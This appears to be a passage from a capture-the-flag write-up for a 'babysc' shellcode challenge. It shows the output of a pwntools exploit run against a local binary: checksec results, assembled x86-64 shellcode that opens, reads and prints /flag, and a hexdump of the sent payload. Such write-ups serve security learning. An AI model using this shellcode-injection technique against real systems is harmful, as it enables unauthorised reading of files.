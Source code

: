 6. Run the script:

   ```sh
   (venv) $ python script.py
   [!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
   [*] '/root/babysc/babysc_no_syscall_check'
       Arch:       amd64-64-little
       RELRO:      Full RELRO
       Stack:      No canary found
       NX:         NX unknown - GNU_STACK missing
       PIE:        PIE enabled
       Stack:      Executable
       RWX:        Has RWX segments
       SHSTK:      Enabled
       IBT:        Enabled
       Stripped:   No
       Debuginfo:  Yes
   [+] Starting local process './babysc_no_syscall_check' argv=[b'./babysc_no_syscall_check'] : pid 22862
   [DEBUG] cpp -C -nostdinc -undef -P -I/root/venv/lib/python3.12/site-packages/pwnlib/data/includes
   [DEBUG] Assembling
       .section .shellcode,"awx"
       .global _start
       .global __start
       _start:
       __start:
       .intel_syntax noprefix
       .p2align 0
       mov rax, 0x2
       lea rdi, [rip + path]
       xor esi, esi
       xor edx, edx
       syscall
       mov rdi, rax
       xor rax, rax
       mov rsi, rsp
       mov rdx, 0x50
       syscall
       mov rdx, rax
       mov rax, 0x1
       mov edi, 0x1
       mov rsi, rsp
       syscall
       mov rax, 60
       xor edi, edi
       syscall
       path:
         .string "/flag"
   [DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-5i652y1g/step2 /tmp/pwn-asm-5i652y1g/step1
   [DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-5i652y1g/step3 /tmp/pwn-asm-5i652y1g/step4
   [DEBUG] Received 0xd bytes:
       b'Enter 0x1000\n'
   [DEBUG] Sent 0x1000 bytes:
       00000000  48 c7 c0 02  00 00 00 48  8d 3d 37 00  00 00 31 f6  │H···│···H│·=7·│··1·│
       00000010  31 d2 0f 05  48 89 c7 48  31 c0 48 89  e6 48 c7 c2  │1···│H··H│1·H·│·H··│
       00000020  50 00 00 00  0f 05 48 89  c2 48 c7 c0  01 00 00 00  │P···│··H·│·H··│····│
       00000030  bf 01 00 00  00 48 89 e6  0f 05 48 c7  c0 3c 00 00  │····│·H··│··H·│·<··│
       00000040  00 31 ff 0f  05 2f 66 6c  61 67 00 90  90 90 90 90  │·1··│·/fl│ag··│····│
       00000050  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
       *
       00001000
   ```